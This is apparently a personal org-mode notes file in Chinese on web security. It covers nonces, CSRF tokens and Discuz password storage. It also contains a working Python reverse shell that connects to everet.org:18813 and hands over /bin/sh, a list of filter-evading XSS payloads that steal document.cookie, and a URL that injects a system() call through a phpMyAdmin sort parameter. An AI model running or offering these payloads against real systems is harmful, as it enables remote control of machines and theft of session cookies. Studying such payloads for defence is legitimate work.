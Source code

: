 #+TITLE: 安全
#+LINK_UP: index.html
#+LINK_HOME: index.html
#+OPTIONS: H:3 num:t toc:2 \n:nil @:t ::t |:t ^:{} -:t f:t *:t <:t

* nonce
  nonce可以防止replay攻击，例如给某人转账100次。

  [[http://stackoverflow.com/questions/2250263/csrf-protection-by-storing-nonce-in-session-variable-and-form][CSRF protection by storing nonce in Session variable and form]]

* CSRF token
  可以存放在session中，例如session["csrf_token"]，然后在每一个form提交的时候都要进行判断。

  [[http://stackoverflow.com/questions/5691492/csrf-tokens-vs-nonce-confusion-are-they-the-same][CSRF tokens vs Nonce confusion - are they the same?]]

* discuz
  cdb_members里面的password字段存放的是随机数，cdb_uc_members的password存放的才是真正的密码。

* 反弹木马
  #+BEGIN_SRC python
    import socket, subprocess, os

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("everet.org", 18813))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    p = subprocess.call(["/bin/sh", "-i"]);
  #+END_SRC

* xss
  #+BEGIN_EXAMPLE
      Oct   Dec   Hex   Char                        Oct   Dec   Hex   Char
      ────────────────────────────────────────────────────────────────────────
      000   0     00    NUL '\0'                    100   64    40    @
      001   1     01    SOH (start of heading)      101   65    41    A
      002   2     02    STX (start of text)         102   66    42    B
      003   3     03    ETX (end of text)           103   67    43    C
      004   4     04    EOT (end of transmission)   104   68    44    D
      005   5     05    ENQ (enquiry)               105   69    45    E
      006   6     06    ACK (acknowledge)           106   70    46    F
      007   7     07    BEL '\a' (bell)             107   71    47    G
      010   8     08    BS  '\b' (backspace)        110   72    48    H
      011   9     09    HT  '\t' (horizontal tab)   111   73    49    I
      012   10    0A    LF  '\n' (new line)         112   74    4A    J
      013   11    0B    VT  '\v' (vertical tab)     113   75    4B    K
      014   12    0C    FF  '\f' (form feed)        114   76    4C    L
      015   13    0D    CR  '\r' (carriage ret)     115   77    4D    M
      016   14    0E    SO  (shift out)             116   78    4E    N
      017   15    0F    SI  (shift in)              117   79    4F    O
      020   16    10    DLE (data link escape)      120   80    50    P
      021   17    11    DC1 (device control 1)      121   81    51    Q
      022   18    12    DC2 (device control 2)      122   82    52    R
      023   19    13    DC3 (device control 3)      123   83    53    S
      024   20    14    DC4 (device control 4)      124   84    54    T
      025   21    15    NAK (negative ack.)         125   85    55    U
      026   22    16    SYN (synchronous idle)      126   86    56    V
      027   23    17    ETB (end of trans. blk)     127   87    57    W
      030   24    18    CAN (cancel)                130   88    58    X
      031   25    19    EM  (end of medium)         131   89    59    Y
      032   26    1A    SUB (substitute)            132   90    5A    Z
      033   27    1B    ESC (escape)                133   91    5B    [
      034   28    1C    FS  (file separator)        134   92    5C    \  '\\'
      035   29    1D    GS  (group separator)       135   93    5D    ]
      036   30    1E    RS  (record separator)      136   94    5E    ^
      037   31    1F    US  (unit separator)        137   95    5F    _
      040   32    20    SPACE                       140   96    60    `
      041   33    21    !                           141   97    61    a
      042   34    22    "                           142   98    62    b
      043   35    23    #                           143   99    63    c
      044   36    24    $                           144   100   64    d
      045   37    25    %                           145   101   65    e
      046   38    26    &                           146   102   66    f
      047   39    27    ´                           147   103   67    g
      050   40    28    (                           150   104   68    h
      051   41    29    )                           151   105   69    i
      052   42    2A    *                           152   106   6A    j
      053   43    2B    +                           153   107   6B    k
      054   44    2C    ,                           154   108   6C    l
      055   45    2D    -                           155   109   6D    m
      056   46    2E    .                           156   110   6E    n
      057   47    2F    /                           157   111   6F    o

      060   48    30    0                           160   112   70    p
      061   49    31    1                           161   113   71    q
      062   50    32    2                           162   114   72    r
      063   51    33    3                           163   115   73    s
      064   52    34    4                           164   116   74    t
      065   53    35    5                           165   117   75    u
      066   54    36    6                           166   118   76    v
      067   55    37    7                           167   119   77    w
      070   56    38    8                           170   120   78    x
      071   57    39    9                           171   121   79    y
      072   58    3A    :                           172   122   7A    z
      073   59    3B    ;                           173   123   7B    {
      074   60    3C    <                           174   124   7C    |
      075   61    3D    =                           175   125   7D    }
      076   62    3E    >                           176   126   7E    ~
      077   63    3F    ?                           177   127   7F    DEL

    Tables
      For convenience, let us give more compact tables in hex and decimal.

         2 3 4 5 6 7       30 40 50 60 70 80 90 100 110 120
       -------------      ---------------------------------
      0:   0 @ P ` p     0:    (  2  <  F  P  Z  d   n   x
      1: ! 1 A Q a q     1:    )  3  =  G  Q  [  e   o   y
      2: " 2 B R b r     2:    *  4  >  H  R  \  f   p   z
      3: # 3 C S c s     3: !  +  5  ?  I  S  ]  g   q   {
      4: $ 4 D T d t     4: "  ,  6  @  J  T  ^  h   r   |
      5: % 5 E U e u     5: #  -  7  A  K  U  _  i   s   }
      6: & 6 F V f v     6: $  .  8  B  L  V  `  j   t   ~
      7: ´ 7 G W g w     7: %  /  9  C  M  W  a  k   u  DEL
      8: ( 8 H X h x     8: &  0  :  D  N  X  b  l   v
      9: ) 9 I Y i y     9: ´  1  ;  E  O  Y  c  m   w
      A: * : J Z j z
      B: + ; K [ k {
      C: , < L \ l |
      D: - = M ] m }
      E: . > N ^ n ~
      F: / ? O _ o DEL

  #+END_EXAMPLE

  #+BEGIN_EXAMPLE
    <script>alert(1)</script>
    [%3c]scr[%69]pt[%3e]alert(1)[%3c]/scr[%69]pt[%3e]
    &#60scrip&#116&#62alert(/et/)&#60/scrip&#116&#62
    &#60&#115&#99&#114&#105&#112&#116&#62alert(/et/)&#60/scrip&#116&#62

    <img src="http://1.com/">aa<img src=


    -- original

    "><script >alert(document.cookie)</script>
    "><ScRiPt>alert(document.cookie)</ScRiPt>
    "%3e%3cscript%3ealert(document.cookie)%3c/script%3e
    "><src<script>ipt>alert(document.cookie)</scr</script>ipt>
    %00"><script>alert(document.cookie)</script>

    -- compress

    "><script >alert(document.cookie)</script> "><ScRiPt>alert(document.cookie)</ScRiPt> "%3e%3cscript%3ealert(document.cookie)%3c/script%3e "><src<script>ipt>alert(document.cookie)</scr</script>ipt> %00"><script>alert(document.cookie)</script>

  #+END_EXAMPLE

  #+BEGIN_SRC python
    def to_hex(ch):
        return '\\' + hex(ord(ch))[1:]

    def enc(s):
        return ''.join(to_hex(c) for c in s)

    print enc('<?php echo 111; ?>')
  #+END_SRC

  #+BEGIN_EXAMPLE
    server_databases.php?pos=0&dbstats=0&sort_by="]) OR system('echo 11111111111'); //&sort_order=desc&token=f93987926a4b7ba064836c7ed4f4f516
  #+END_EXAMPLE
